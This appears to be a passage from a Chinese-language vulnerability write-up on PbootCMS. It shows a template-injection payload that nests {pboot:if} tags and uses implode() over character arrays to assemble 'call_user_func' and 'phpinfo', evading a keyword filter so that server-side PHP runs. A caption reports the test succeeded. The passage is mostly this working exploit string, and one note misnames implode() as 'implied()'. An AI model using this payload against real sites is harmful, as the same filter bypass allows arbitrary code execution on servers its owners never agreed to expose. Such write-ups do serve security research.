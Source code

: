 ![succeed_to_skip_the_filter_210](img/succeed_to_skip_the_filter_210.jpg)

> 函数 phpinfo() 可以显示出 php 所有相关信息。是排查配置 php 是否出错的主要方式之一。
>
> 函数 implied() 可以将数组元素拼接成字符串。

```shell
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```

执行 `phpinfo()` 进行测试也成功：

<img src="img/phpinfo_success_211.jpg" alt="phpinfo_success_211"  />
